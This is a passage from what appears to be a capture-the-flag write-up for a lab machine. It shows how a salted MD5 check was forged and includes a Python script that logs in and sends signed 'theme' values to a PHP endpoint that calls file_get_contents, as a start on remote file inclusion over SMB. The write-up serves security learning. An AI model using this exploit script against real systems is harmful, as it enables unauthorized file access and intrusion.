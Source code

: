 Doing same hashing technique this tile return php traceback error.
```bash
❯ python -c "from hashlib import md5;print(md5(('hie0shah6ooNoim'+'test').encode('utf-8')).hexdigest())"
d9f7afc366cf839391aac8d0d333c7c5
```

![](/assets/img/posts/proper/theme-get-content.png)

this time server is doing `file_get_contents` on `theme` parameter.

## SMB connect via remote file inclusion

Create a python script to make life easy
```py
from hashlib import md5
from sys import argv
from urllib.parse import quote_plus
import requests as r

s = r.session()
url = 'http://10.10.10.231/licenses/'
data = {"username": "vikki.solomon@throwaway.mail", "password": "password1"}
s.post(url, data=data)  # login
theme_param = argv[1]
hash = md5(b"hie0shah6ooNoim" + theme_param.encode('utf-8')).hexdigest()
rspn = s.get(f'{url}licenses.php?theme={quote_plus(theme_param)}&h={hash}')
head, sep, tail = rspn.text.partition('<body>')
print(head)

s.close()
```
